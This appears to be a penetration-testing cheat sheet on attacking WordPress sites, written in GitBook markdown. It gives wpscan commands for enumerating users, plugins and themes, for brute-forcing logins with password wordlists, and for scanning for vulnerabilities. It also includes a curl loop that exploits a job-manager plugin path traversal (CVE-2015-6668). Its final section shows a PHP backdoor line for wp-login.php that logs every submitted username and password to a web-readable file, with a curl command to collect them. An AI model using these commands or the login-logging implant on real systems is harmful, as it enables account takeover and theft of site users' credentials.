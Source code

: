 ```yaml
---
icon: wordpress
---
```


# Wordpress

{% hint style="info" %}
### <mark style="color:purple;">`Installation`</mark>

```sh
gem install wpscan
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">`Enumeration`</mark>

{% code title="Basic Scan" %}
```bash
wpscan --url https://example.com
```
{% endcode %}

{% code title="Users" %}
```sh
wpscan --url https://example.com --enumerate u
```
{% endcode %}

{% code title="Plugins" %}
```sh
wpscan --url https://example.com --enumerate ap
```
{% endcode %}

{% code title="Themes" %}
```sh
wpscan --url https://example.com --enumerate at
```
{% endcode %}

***

### <mark style="color:purple;">`Brute-Forcing`</mark>

{% code title="With username" overflow="wrap" %}
```sh
wpscan --url https://example.com --passwords passwords.txt --usernames admin
```
{% endcode %}

{% code title="With users wordlist" overflow="wrap" %}
```sh
wpscan --url https://example.com --passwords passwords.txt --usernames users.txt
```
{% endcode %}

{% code title="With a custom wordlist" %}
```sh
wpscan --url https://example.com --passwords custom.txt
```
{% endcode %}

***

### <mark style="color:purple;">`Vulnerability Scanner`</mark>

{% code title="Full Scan" %}
```sh
wpscan --url https://example.com --enumerate vp,vt,vt
```
{% endcode %}

{% code title="Plugins" %}
```sh
wpscan --url https://example.com --enumerate vp
```
{% endcode %}

{% code title="Themes" %}
```sh
wpscan --url https://example.com --enumerate vt
```
{% endcode %}

{% code title="Timthumbs" %}
```sh
wpscan --url https://example.com --enumerate tt
```
{% endcode %}

{% code title="Uses WPVulnDB" overflow="wrap" %}
```sh
wpscan --url https://example.com --enumerate vp,vt,vt --api-token YOUR_API_TOKEN
```
{% endcode %}

***

### <mark style="color:purple;">`Other`</mark>

{% code title="With output" %}
```sh
wpscan --url https://example.com --output example.json
```
{% endcode %}

{% code title="Custom User-Agent" overflow="wrap" %}
```sh
wpscan --url https://example.com --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
```
{% endcode %}

{% code title="Disable TLS check" %}
```sh
wpscan --url https://brainfuck.htb --disable-tls-checks
```
{% endcode %}
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">`Vulnerabilities`</mark>

<mark style="color:orange;">**`CVE-2015-6668`**</mark>

* <mark style="color:purple;">There is a path traversal in the</mark> <mark style="color:orange;">**`job-manager`**</mark> <mark style="color:purple;">plugin version</mark> <mark style="color:orange;">**`0.7.25`**</mark>
* <mark style="color:purple;">By browsing to</mark> <mark style="color:orange;">**`IP/index.php/jobs/apply/8/`**</mark> <mark style="color:purple;">and modifying the number in the URL, it is possible to find the names of existing applications.</mark>

{% code title="Enumerate with curl" overflow="wrap" %}
```sh
for i in $(seq 1 25); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
```
{% endcode %}

* <mark style="color:purple;">Use this</mark> [<mark style="color:orange;">**`POC`**</mark>](https://github.com/jimdiroffii/CVE-2015-6668/blob/main/exploit.py) <mark style="color:purple;">to look for files associated to an application.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">`Harvesting Credentials`</mark>

* <mark style="color:purple;">If is possible to write in</mark> <mark style="color:orange;">**`wp-login.php`**</mark><mark style="color:purple;">, add this line just after</mark> <mark style="color:orange;">**`<?php`**</mark><mark style="color:purple;">**:**</mark>

{% code overflow="wrap" %}
```php
file_put_contents("/var/www/html/dev_wiki/hijack.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND);
```
{% endcode %}

* <mark style="color:purple;">Use this command to get the hijacked file as soon as is used:</mark>

{% code overflow="wrap" %}
```sh
watch -n 1 curl -s -X GET http://10.10.10.78/dev_wiki/hijack.txt
```
{% endcode %}
{% endhint %}

